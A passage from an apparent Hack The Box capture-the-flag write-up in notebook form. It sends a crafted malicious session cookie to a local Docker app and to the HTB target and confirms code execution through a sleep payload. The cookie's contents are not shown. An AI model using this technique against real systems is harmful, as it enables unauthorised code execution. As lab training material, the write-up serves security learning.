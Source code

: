 The app that is running inside our Docker container has been augmented with some debug strings intended to be printed in the log of our webserver. In such a way we could get useful information in case of errors.


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server2
    Using the url: http://173.17.0.3:1337


Send a `GET` request to the application using the just computed session cookie.


```python
out = requests.session().get(url,cookies={'session':evil_cookie})
bs_obj= BeautifulSoup(out.text,'lxml')
bs_obj
```




    <html><body><p>render_template('index.html')</p></body></html>



The app is sleeping! We have been able to execute the code in our payload.

The following picture is from the logging of our local application.

<img src="https://i.ibb.co/RjFnG8T/sleep-log.png" alt="sleep-log" border="0">

#### Bring in more abstraction to our approach

Let's abstract the procedure to send the cookies and retrieve the response body.


```python
def get_response_from_the_app_using_cookie(url_target,cookies=None):
    res = requests.session().get(url_target,cookies={'session':cookies})
    return BeautifulSoup(res.text,'lxml')
```


```python
get_response_from_the_app_using_cookie(url,evil_cookie)
```




    <html><body><p>render_template('index.html')</p></body></html>



Our local app sleeps. We need to check what happens to the one from HTB.


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820
